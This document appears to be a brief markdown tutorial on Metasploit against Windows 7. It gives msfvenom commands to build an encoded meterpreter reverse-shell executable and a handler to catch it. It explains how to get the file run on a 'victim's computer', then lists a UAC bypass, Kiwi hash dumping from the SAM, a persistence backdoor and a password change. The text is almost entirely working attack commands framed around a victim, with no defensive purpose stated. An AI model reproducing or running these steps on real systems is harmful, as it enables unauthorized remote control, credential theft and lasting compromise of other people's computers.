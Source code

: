 # Metasploit Basics using Kali#
OS Windows 7
- - - - 

#### 1. Create the .exe with Venom ####

    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
    msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}

#### 2. On metasploit, select the payload ####

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
Configure the settings <code>show options</code> and <code>exploit</code>.

#### 3. It's necesary to execute the file on the victim's computer ####
Use <code>python -m SimpleHTTPServer 80</code> to have an easy acces to your file wihtout the need of download it.
Run your file through any browser on victim's computer using your IP and the connection should be established.

Then do anything you want with the computer's victim, remember alway use:
>   <code>show options</code> to configure the settings.  

>   <code>background</code> to set the current session on background.

>   <code>sessions</code> list all the active sessions.

>   <code>exploit</code> or <code>run</code> execute the exploit.

#### Get system credentials #### 
    use exploit/windows/local/bypassuac
#### Use Kiwi to get all the hashes ####
    load kiwi
    lsa_dump_sam
#### Make a permantent connection with the victim ####
    run persistence -U -i 5 -p 4444 -r 192.168.0.3
    run persistence -U -i {Intervale time} -p {port} -r {lhost IP}
#### Change user password ####
    use windows/manage/change_password
